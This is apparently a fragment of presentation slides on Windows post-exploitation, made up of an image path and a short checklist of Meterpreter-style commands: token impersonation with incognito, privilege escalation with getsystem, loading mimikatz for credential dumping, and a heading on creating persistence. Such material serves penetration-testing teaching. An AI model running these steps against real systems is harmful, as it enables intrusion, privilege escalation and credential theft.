

# Post Exploitation - Windows
use incognito
getsystem
load mimikatz

Create persistence